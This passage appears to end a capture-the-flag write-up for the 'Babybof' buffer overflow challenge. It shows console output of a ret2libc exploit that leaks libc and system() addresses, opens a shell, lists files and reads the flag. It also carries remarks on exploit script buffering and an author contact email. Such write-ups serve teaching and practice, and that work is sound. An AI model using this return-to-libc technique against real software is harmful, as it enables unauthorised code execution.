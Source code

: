 ```console
[*] Address of libc 0x7f6fa4e08000 
[*] bin/sh 0x7f6fa4fbf5aa 
[*] system 0x7f6fa4e5d410 
[*] Switching to interactive mode
Welcome to the cybercastors Babybof
Say your name: /bin/sh: 0: can't access tty; job control turned off
$ $ ls
babybof  flag.txt  shell_flag.txt
$ $ cat shell_flag.txt
castorsCTF{w0w_U_jU5t_h4ck3d_th15!!1_c4ll_th3_c0p5!11}
$ $  
```

Note: during the actual ctf, there was a weird buffering issue, so I had to run exploit_buf.py around 100 times to get a shell.  
Towards the end of the ctf, the organizers fixed the buffering issue, so running exploit.py just once will now work.

Also if you see any inaccuracies anywhere, feel free to [contact](mailto:jacobshin313@gmail.com) me!
